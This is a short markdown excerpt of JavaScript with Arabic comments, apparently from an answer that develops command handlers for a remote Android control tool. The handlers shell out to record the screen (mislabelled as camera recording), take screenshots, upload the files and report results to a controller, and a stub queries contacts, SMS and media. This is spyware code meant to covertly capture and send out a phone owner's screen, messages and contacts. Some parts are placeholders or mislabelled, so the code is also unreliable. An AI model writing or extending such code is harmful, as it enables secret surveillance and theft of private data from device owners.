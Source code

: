 ```javascript
// تسجيل الكاميرا
async function recordCamera(duration) {
    try {
        const outputPath = `/sdcard/DCIM/recording_${Date.now()}.mp4`;
        await executeShellCommand(`screenrecord --verbose --time-limit ${duration} ${outputPath}`);
        
        setTimeout(async () => {
            if (await fileExists(outputPath)) {
                await uploadFile(outputPath);
                sendCommandResult('record_camera', 'success', {
                    video: outputPath,
                    duration: duration,
                    size: 'recorded',
                    timestamp: Date.now()
                });
            }
        }, (duration + 5) * 1000);
    } catch (e) {
        sendCommandResult('record_camera', 'error', e.message);
    }
}

// لقطة الشاشة
async function takeScreenshot() {
    try {
        const screenshot = await executeShellCommand('screencap /sdcard/screenshot.png');
        sendCommandResult('take_screenshot', 'success', {
            image: '/sdcard/screenshot.png',
            size: 'captured',
            timestamp: Date.now()
        });
    } catch (e) {
        sendCommandResult('take_screenshot', 'error', e.message);
    }
}
```

#### **2. تحسين `queryContentProvider`:**
```javascript
async function queryContentProvider(uri) {
    return new Promise((resolve) => {
        setTimeout(() => {
            if (uri.includes('contacts')) {
                // محاكاة بيانات جهات الاتصال
                resolve([...]);
            }
            else if (uri.includes('sms')) {
                // محاكاة بيانات الرسائل النصية
                resolve([...]);
            }
            else if (uri.includes('media')) {
                // محاكاة بيانات الوسائط
                resolve([...]);
            }
            else {
                resolve(`Data from ${uri}`);
            }
        }, 2000);
    });
}
```
